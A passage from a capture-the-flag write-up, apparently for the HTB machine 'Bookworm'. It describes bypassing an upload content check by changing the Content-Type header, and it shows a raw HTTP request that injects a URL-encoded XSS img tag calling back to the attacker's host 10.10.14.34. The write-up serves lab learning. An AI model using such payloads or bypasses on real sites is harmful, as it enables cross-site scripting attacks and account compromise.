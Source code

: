 We can try uploading some basic Javascript files (since this was likely an XSS-based initial access). After some trial and error, I found that by changing the `Content-Type` header to `image/jpeg`, we can bypass the content check and upload whatever we want.&#x20;

<figure><img src="../../.gitbook/assets/image (702) (1).png" alt=""><figcaption></figcaption></figure>

### Profile XSS --> Steal Page

After that initial recon, we can try to inject payloads into the notes of the bot's cart.

```http
POST /basket/2061/edit HTTP/1.1
Host: bookworm.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 79
Origin: http://bookworm.htb
Connection: close
Referer: http://bookworm.htb/basket
Cookie: session=eyJmbGFzaE1lc3NhZ2UiOnt9LCJ1c2VyIjp7ImlkIjoxNCwibmFtZSI6InRlc3QiLCJhdmF0YXIiOiIvc3RhdGljL2ltZy91c2VyLnBuZyJ9fQ==; session.sig=eNrnjBHPf1vWoX6kzmk2xB4dWdM
Upgrade-Insecure-Requests: 1



quantity=1&note=%3Cimg+src%3D%22http%3A%2F%2F10.10.14.34%2F%3Fbotcallback%22%3E
```

This payload works in getting a callback from the machine itself.&#x20;

<figure><img src="../../.gitbook/assets/image (6) (13) (1).png" alt=""><figcaption></figcaption></figure>
